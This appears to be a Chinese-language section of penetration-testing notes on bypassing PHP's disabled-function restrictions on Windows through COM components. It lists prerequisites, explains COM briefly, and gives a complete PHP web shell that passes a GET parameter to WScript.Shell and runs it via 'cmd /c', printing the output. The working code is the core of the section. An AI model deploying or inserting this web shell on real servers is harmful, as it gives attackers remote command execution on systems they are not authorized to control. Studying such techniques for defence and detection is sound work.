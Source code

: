 ## 利用系统组件 window com 绕过

**1\. 利用条件**

* Windows
* php5.x（高版本扩展要自己添加）
* 支持COM组件

**2\. 基本原理**

COM组件它最早的设计意图是，跨语言实现程序组件的复用
COM组件由以Win 32动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循COM规范编写出来的组件将能够满足对组件架构的所有要求。COM组件可以给应用程序、操作系统以及其他组件提供服务；自定义的COM组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM组件可以动态的插入或卸出应用。

(images/15904996985860.png)


```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>

```

(images/15904997072463.png)


